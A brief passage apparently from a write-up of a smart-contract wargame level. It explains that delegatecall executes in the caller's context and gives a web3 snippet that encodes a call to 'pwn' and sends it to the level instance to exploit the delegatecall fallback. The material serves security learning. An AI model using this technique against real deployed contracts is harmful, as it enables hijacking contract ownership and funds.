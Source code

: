 `delegatecall` will evaluate the call in the context of the contract that makes the call.

```
const data = web3.eth.abi.encodeFunctionCall({
    name: 'pwn',
    type: 'function',
    inputs: []
}, []);

sendTransaction({ from: player, to: instance, data })
```
